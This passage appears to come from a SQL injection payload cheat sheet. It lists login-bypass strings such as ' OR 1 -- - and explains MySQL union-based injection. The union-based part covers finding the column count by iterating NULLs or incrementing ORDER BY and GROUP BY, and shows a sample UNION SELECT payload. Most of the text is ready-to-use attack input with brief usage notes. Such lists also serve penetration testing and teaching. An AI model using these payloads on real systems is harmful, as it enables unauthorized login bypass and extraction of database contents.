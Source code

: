 * **Login**: Query like `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`

    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+
    ```

## MYSQL Union Based

### Detect Columns Number

To successfully perform a union-based SQL injection, an attacker needs to know the number of columns in the original query.

#### Iterative NULL Method

Systematically increase the number of columns in the `UNION SELECT` statement until the payload executes without errors or produces a visible change. Each iteration checks the compatibility of the column count.

```sql
UNION SELECT NULL;--
UNION SELECT NULL, NULL;-- 
UNION SELECT NULL, NULL, NULL;-- 
```

#### ORDER BY Method

Keep incrementing the number until you get a `False` response. Even though `GROUP BY` and `ORDER BY` have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

| ORDER BY        | GROUP BY        | Result |
| --------------- | --------------- | ------ |
| `ORDER BY 1--+` | `GROUP BY 1--+` | True   |
| `ORDER BY 2--+` | `GROUP BY 2--+` | True   |
| `ORDER BY 3--+` | `GROUP BY 3--+` | True   |
| `ORDER BY 4--+` | `GROUP BY 4--+` | False  |

Since the result is false for `ORDER BY 4`, it means the SQL query is only having 3 columns.
In the `UNION` based SQL injection, you can `SELECT` arbitrary data to display on the page: `-1' UNION SELECT 1,2,3--+`.

Similar to the previous method, we can check the number of columns with one request if error showing is enabled.

```sql
ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+ # Unknown column '4' in 'order clause'
```
